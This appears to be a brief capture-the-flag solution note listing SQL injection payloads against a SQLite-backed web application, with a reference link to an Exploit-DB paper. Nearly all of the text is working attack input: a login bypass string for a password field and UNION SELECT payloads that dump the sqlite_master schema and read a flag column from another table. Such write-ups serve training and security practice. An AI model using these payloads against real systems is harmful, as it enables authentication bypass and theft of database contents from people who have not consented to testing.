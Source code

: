 # password
admin' or '1'='1'--
# welcome
1' union select 1,2,3 --+
1' union select tbl_name,sql,3 from sqlite_master--+
1' union select 1,flag,3 from more_table--+
> reference: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf